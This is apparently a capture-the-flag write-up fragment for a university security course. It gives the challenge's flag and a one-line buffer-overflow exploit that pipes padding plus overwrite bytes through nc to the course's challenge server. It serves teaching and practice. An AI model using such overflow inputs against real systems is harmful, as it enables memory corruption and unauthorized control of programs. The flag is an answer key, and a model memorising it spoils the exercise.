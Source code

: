 Flag: SSof{Buffer_Overflow_and_you_control_local_variables}

exploit:

```
echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x01\x00\x00\x00" | nc mustard.stt.rnl.tecnico.ulisboa.pt 22151
```
